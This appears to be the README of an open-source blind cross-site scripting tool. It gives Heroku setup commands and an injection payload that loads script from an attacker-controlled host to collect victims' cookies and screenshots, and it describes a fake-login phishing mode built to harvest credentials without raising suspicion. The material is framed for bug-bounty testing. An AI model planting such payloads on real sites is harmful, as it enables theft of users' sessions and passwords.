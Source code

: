 # vaya-ciego-nen
**vaya-ciego-nen** is a tool that allows you to create your own webapp to detect, manage and exploit **Blind Cross-site scripting (XSS)** vulnerabilities.

A more detailed guide about this tool can be found [here](https://hipotermia.pw/guide/vaya-ciego-nen).


<p align="center">
  <img src="/static/img/dash.png">
  <img src="/static/img/info.png">
</p>

## How does it work?
This webapp serves a malicious JavaScript payload that will execute if a XSS is present, retrieving cookies, a screenshot and more info. This info can be seen in a dashboard where you're able to manage all the triggers, which are stored in a PostgreSQL database.

## Usage
The project is oriented to be deployed in a **free** [heroku](https://heroku.com) instance, but the changes are minimum if you want to use the code in your own server.

First, you'll need to install [`heroku-cli`](https://devcenter.heroku.com/articles/heroku-cli) if you don't have it already. Then:
```
$ git clone https://github.com/hipotermia/vaya-ciego-nen
$ cd vaya-ciego-nen
$ heroku login
$ heroku create name_of_your_app
$ heroku addons:create heroku-postgresql:hobby-dev
```
Modify the file `config.py` with a username/password of your choice (used to access your dashboard), change the domain for your *name_of_your_app.herokuapp.com*, and finally:
```
$ git add .
$ git commit -m "letsgo"
$ git push heroku master
```
That's it! Now you have your own dashboard in *name_of_your_app.herokuapp.com/dashboard* and you just have to use your favorite payload like `"><script src="https://name_of_your_app.herokuapp.com"></script>` to find blind XSS.

## Not sure of which input triggered your payload?
Create different payloads for each input using `name_of_your_app.herokuapp.com/?extra` modifying the *extra* param and this will be visible on your dashboard to recognize it. You can use `/?email_input` for an email input for example.

## HttpOnly on the session cookie?
No worries, use `name_of_your_app.herokuapp.com/phish` in your payload and instead of collecting info, a fake login panel will appear in the victim's browser and if he enters its credentials, they're going to be sent to your dashboard! A cookie will be set on the victim's browser to control the login panel just appears once to avoid suspicion.
> **Note:** Most bugbounties don't allow phishing attacks on their programs. Don't do this unless you're 100% sure you're allowed.

<p align="center">
  <img src="/static/img/login.png">
</p>
